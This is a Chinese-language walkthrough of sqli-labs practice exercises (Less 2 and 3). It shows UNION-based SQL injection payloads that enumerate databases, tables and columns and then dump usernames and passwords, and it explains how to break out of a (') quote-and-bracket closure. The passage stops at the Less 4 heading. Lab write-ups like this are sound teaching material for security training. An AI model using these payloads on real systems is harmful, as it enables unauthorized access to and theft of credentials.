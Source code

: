         1.首先要判断其注入点，用`select 1，2，3...`发现到三能够正常显示，且根据屏幕回显内容判断出显示位，可以进行下一步的payload

    [![0jQAlq.jpg](https://s1.ax1x.com/2020/10/18/0jQAlq.jpg)](https://imgchr.com/i/0jQAlq)

        2.然后查询含有的数据库名称，可以用database()，也可以直接从schemata里面查

        `?id=0 union select 1,2,group_concat(schema_name) from information_schema.schemata --+`

    [![0jQVXV.jpg](https://s1.ax1x.com/2020/10/18/0jQVXV.jpg)](https://imgchr.com/i/0jQVXV)

        了解到当前处于security库

        3.对security库的表进行查询

        `?id=0 union select 1,2,group_concat(table_name) from information_schema.columns where table_schema='security' --+`

    [![0jQemT.jpg](https://s1.ax1x.com/2020/10/18/0jQemT.jpg)](https://imgchr.com/i/0jQemT)

        通过其内容可以猜到我们想要的内容应该在users表中，所以接下来就是对users表进行爆字段


        4.`?id=0 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`

    [![0jQE60.jpg](https://s1.ax1x.com/2020/10/18/0jQE60.jpg)](https://imgchr.com/i/0jQE60)


        可以看到其中有username与password两项，我们随即对其进行输出操作

        5.由于我们当前就处于security库中，所以不必再从information_schema库中查找数据，直接

        `?id=0 union select 1,2,group_concat('|',username,'~',password) from users--+`

        从users表中输出数据

    [![0jQkpn.jpg](https://s1.ax1x.com/2020/10/18/0jQkpn.jpg)](https://imgchr.com/i/0jQkpn)

***
# less 3(get基于报错的单引号变形字符注入)
*  原理

        依旧是闭合问题，没有过滤，只不过形式变成了('')这样的闭合形式

    [![0jldbT.jpg](https://s1.ax1x.com/2020/10/18/0jldbT.jpg)](https://imgchr.com/i/0jldbT)

*  步骤

        1.对页面id传参单引号，发现以下报错页面


    [![0jlarV.jpg](https://s1.ax1x.com/2020/10/18/0jlarV.jpg)](https://imgchr.com/i/0jlarV)

        其中发现语法错误附近有')，一个单引号和一个括号，得知闭合方式不只是单引号这样，而是多加了一个括号变成了另外一种形式，所以在注入过程中单引号后加一个括号就可以达成目的

        其余步骤和上一题是一样的，最终得到用户密码对照


    [![0jlBaF.jpg](https://s1.ax1x.com/2020/10/18/0jlBaF.jpg)](https://imgchr.com/i/0jlBaF)
***
# less 4(get基于报错的双引号字符型注入)
